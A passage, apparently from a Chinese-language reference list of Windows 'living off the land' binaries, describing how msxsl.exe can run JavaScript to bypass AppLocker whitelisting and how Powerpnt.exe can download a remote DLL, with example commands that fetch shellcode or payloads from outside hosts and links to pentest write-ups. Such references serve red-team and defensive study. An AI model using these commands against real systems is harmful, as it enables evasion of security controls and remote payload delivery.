 根据Microsoft的msxsl.exe命令行程序，用户能够使用Microsoft XSL处理器执行命令行可扩展样式表语言（XSL）。 但是，这个二进制文件可以用来执行恶意的JavaScript代码并绕过应用程序白名单保护。

- 执行方式：
```
msxsl.exe customers.xml script.xsl
msxls.exe https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml
```
- 参考资料：
```
https://pentestlab.blog/2017/07/06/applocker-bypass-msxsl/
https://twitter.com/subTee/status/877616321747271680
https://github.com/3gstudent/Use-msxsl-to-bypass-AppLocker
```

## Powerpnt.exe
- 使用说明：
Microsoft Office 的ppt程序。

文件路径:
```
C:\Program Files (x86)\Microsoft Office 16\ClientX86\Root\Office16\Powerpnt.exe
C:\Program Files\Microsoft Office 16\ClientX64\Root\Office16\Powerpnt.exe
C:\Program Files (x86)\Microsoft Office\Office16\Powerpnt.exe
C:\Program Files\Microsoft Office\Office16\Powerpnt.exe
C:\Program Files (x86)\Microsoft Office 15\ClientX86\Root\Office15\Powerpnt.exe
C:\Program Files\Microsoft Office 15\ClientX64\Root\Office15\Powerpnt.exe
C:\Program Files (x86)\Microsoft Office\Office15\Powerpnt.exe
C:\Program Files\Microsoft Office\Office15\Powerpnt.exe
C:\Program Files (x86)\Microsoft Office 14\ClientX86\Root\Office14\Powerpnt.exe
C:\Program Files\Microsoft Office 14\ClientX64\Root\Office14\Powerpnt.exe
C:\Program Files (x86)\Microsoft Office\Office14\Powerpnt.exe
C:\Program Files\Microsoft Office\Office14\Powerpnt.exe
C:\Program Files (x86)\Microsoft Office\Office12\Powerpnt.exe
C:\Program Files\Microsoft Office\Office12\Powerpnt.exe
C:\Program Files\Microsoft Office\Office12\Powerpnt.exe
```
- 执行方式：
```
Powerpnt.exe "http://192.168.1.10/TeamsAddinLoader.dll"
```
- 参考资料：
```
https://twitter.com/reegun21/status/1150032506504151040
https://medium.com/@reegun/unsanitized-file-validation-leads-to-malicious-payload-download-via-office-binaries-202d02db7191
```
## rcsi.exe
- 使用说明：

Visual Studio附带的非交互式命令行界面，和dnx一样rcsi可以执行C#代码，rcsi非交互式。
